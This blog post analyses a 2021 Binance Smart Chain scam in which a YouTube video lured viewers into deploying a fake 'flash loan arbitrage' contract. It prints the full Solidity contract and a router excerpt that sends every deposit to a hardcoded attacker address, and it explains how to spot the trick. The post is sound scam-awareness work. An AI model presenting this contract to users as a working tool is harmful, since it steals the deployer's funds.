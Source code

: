 ```yaml
---
title: "Analysis of a technical smart contract scam"
date: 2021-06-09T18:42:51+07:00
tags: [scam, BSC, analysis, smart contracts]
---
```


## Introduction

I once came across a video on YouTube which was named "How I earned BNB using Flashloans to Arbitrage on Binance Smartchain BSC".
The title was quite catchy because everyone who followed the crypto field in the beginning of 2021 was aware of Binance
Smart Chain (BSC), which is a clone of Ethereum, and definitely heard about multiple attacks on DeFi projects running on
this blockchain.

Following the success of DeFi on Ethereum, Binance created a copy of the blockchain and, allegedly, funded multiple
projects that copied most successful and advanced DeFi-projects of Ethereum.
Everything looked fine until a cascade of hacks that targeted projects on BSC in the Spring of 2021.

Most of the attacks used a similar scheme:

1. A DeFi contract had a flaw in token balances calculation.
1. An attacker used a flash loan to inflate a token pool or vault.
1. The attacker then exploited the flaw by doing a big trade or token swap and tricking the contract into thinking that all balances were correct.
1. The flash loan was repaid and the attacker got away with some profit.

So, for anyone who heard about those attacks it was hard to pass by (me included).

## Mechanics of the scam

Author of the video shared how they managed to take a flash loan to make one arbitraging trade and earn several BNB
(1 BNB costed around $400 back then).
And, out of generosity, they shared the technique:

1. Viewer was asked to deploy a smart contract that does all the job.
1. To cover transaction fees, viewer was asked to deposit 0.25 BNB into the contract. The contract belonged to the viewer, so everything looked safe.
1. Then, viewer needed to execute `flashloan` function of the contract.

The author even uploaded the contract to [Remix](https://remix.ethereum.org/), an Ethereum online IDE, so viewer needed
to only click a couple of buttons.

It's not hard to guess that everyone how followed the instructions lost the 0.25 BNB they deposited into the contract
and got nothing in return.
At the time of writing, more than 44 BNB (more than $17 500) were withdrawn from attacker's address.

## How to identify the scam

First thing that stands out is the 0.25 BNB fee: this is a very high transaction fee for BSC, you'd hardly ever submit
a transaction that costs that much.
Apparently, the attacker didn't want it to be too suspicious and made the amount low enough to look like a real fee
and big enough to satisfy their greed.

Second, never ever run a contract if you don't know how it works.
Here's the contract viewers were instructed to deploy (comments are added by its author):

```solidity
pragma solidity ^0.5.0;

// PancakeSwap Smart Contracts
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeCallee.sol";
import "https://github.com/pancakeswap/pancake-swap-core/blob/master/contracts/interfaces/IPancakeFactory.sol";

//BakerySwp Smart contracts
import "https://github.com/BakeryProject/bakery-swap-core/blob/master/contracts/interfaces/IBakerySwapFactory.sol";

// Router
import "ipfs://QmUSQQNWBJ6snmx5FvafDSBCPCy63BLTpwM61dYjRzwLkN";

// Multiplier-Finance Smart Contracts
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPoolAddressesProvider.sol";
import "https://github.com/Multiplier-Finance/MCL-FlashloanDemo/blob/main/contracts/interfaces/ILendingPool.sol";

contract InitiateFlashLoan {
  RouterV2 router;
  string public tokenName;
  string public tokenSymbol;
  uint256 flashLoanAmount;

  constructor(
    string memory _tokenName,
    string memory _tokenSymbol,
    uint256 _loanAmount
  ) public {
    tokenName = _tokenName;
    tokenSymbol = _tokenSymbol;
    flashLoanAmount = _loanAmount;
    router = new RouterV2();
  }

  function() external payable {}

  function flashloan() public payable {
    // Send required coins for swap
    address(uint160(router.pancakeSwapAddress())).transfer(
      address(this).balance
    );

    //Flash loan borrowed 3,137.41 BNB from Multiplier-Finance to make an arbitrage trade on the AMM DEX PancakeSwap.
    router.borrowFlashloanFromMultiplier(
      address(this),
      router.bakerySwapAddress(),
      flashLoanAmount
    );

    //To prepare the arbitrage, BNB is converted to BUSD using PancakeSwap swap contract.
    router.convertBnbToBusd(msg.sender, flashLoanAmount / 2);

    //The arbitrage converts BUSD for BNB using BUSD/BNB PancakeSwap, and then immediately converts BNB back to 3,148.39 BNB using BNB/BUSD BakerySwap.
    router.callArbitrageBakerySwap(router.bakerySwapAddress(), msg.sender);

    //After the arbitrage, 3,148.38 BNB is transferred back to Multiplier to pay the loan plus fees. This transaction costs 0.2 BNB of gas.
    router.transferBnbToMultiplier(router.pancakeSwapAddress());

    //Note that the transaction sender gains 3.29 BNB from the arbitrage, this particular transaction can be repeated as price changes all the time.
    router.completeTransation(address(this).balance);
  }
}

```

Everything looks kind of ok:

1. Real PancakeSwap, BakerySwap, and Multiplier-Finance contracts are imported.
1. A router contract is imported (IPFS? huh?).
1. Then there's `flashloan` function that sends contract's ethers to a PancakeSwap address, borrows a flash loan from
   Multiplier-Finance, makes an arbitraging swap, pays out the loan, and finally returns some profit to the contract.

In fact, it does only one thing: it sends all BNB deposited into the contract, to attacker's address.
That IPFS import definitely looks suspicious and there's a reason they used IPFS there: so it's harder to get the Router
contract and see what it's doing.

The Router contract contains a lot of lines to make it noisy and hard to read but it's not hard to find the only
important part:

```solidity
...

contract RouterV2 {
    ...
    function pancakeSwapAddress() public pure returns (address) {
        return 0x2593F13d5b7aC0d766E5768977ca477F9165923a;
    }

    ...
}
```

This is the address the main contract sends all funds to.

## Conclusion

This scam is an interesting case: most scams target non-tech savvy users of cryptocurrencies and this one
targets those who are aware of flash loan attacks and who knows how to deploy smart contracts and how to interact with them directly.
That is not a large audience but, [as we can see](https://bscscan.com/address/0x2593F13d5b7aC0d766E5768977ca477F9165923a#internaltx), many people have still fell
victims of the scam.

If you like reading about blockchain security and hacks, I highly recommend subscribing to [Blockchain Threat Intelligence](https://blockthreat.substack.com/?utm_source=jeiwan.net&utm_medium=blog&utm_content=textlink) (I'm not its author).
